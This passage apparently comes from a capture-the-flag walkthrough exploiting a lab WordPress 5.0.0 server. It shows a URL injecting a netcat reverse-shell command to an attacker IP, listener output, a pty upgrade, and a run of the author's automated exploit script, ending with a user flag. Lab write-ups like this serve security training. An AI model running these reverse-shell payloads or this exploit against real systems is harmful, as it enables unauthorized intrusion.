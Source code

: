 Set up a netcat listener on port 443, and type the following in the address bar.

`localhost:1337/wordpress/?p=333&cmd=nc 172.16.178.1 443 -c /bin/bash`

![](/assets/images/jerome/screenshot-24.png)

It was obtained a shell with user **jerome** privileges.

```console
root@kali:~# nc -vlnp 443
listening on [any] 443 ...
connect to [172.16.178.1] from (UNKNOWN) [172.16.178.132] 55284
python3 -c 'import pty; pty.spawn("/bin/bash")'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

jerome@jerome:/var/www/html/wordpress$
```

**Automated Exploitation**

If you are comfortable using automated tools, I developed a python script that makes the exploitation process much easier, the exploit can be found [here](https://github.com/ret2x-tools/poc-wordpress-5.0.0.git).

```console
root@kali:~/# proxychains -q python3 poc.py --url http://localhost:1337/wordpress -u jerome -p jerome -lhost 172.16.178.1 -lport 443
[*] Authenticating to wordpress
[+] Login successful
[*] Uploading image
[+] Image uploaded
[*] Updating image
[*] Including image into theme
[*] Creating post
[*] Starting listener on 443
[*] Executing reverse shell
bash: cannot set terminal process group (536): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

jerome@jerome:/var/www/html/wordpress$ id
id
uid=1000(jerome) gid=1000(jerome) groups=1000(jerome),27(sudo)
jerome@jerome:/var/www/html/wordpress$
```

```console
Listing the user flag 
jerome@jerome:/home/jerome$ cat flag.txt
cat flag.txt
b0ed001c825
```
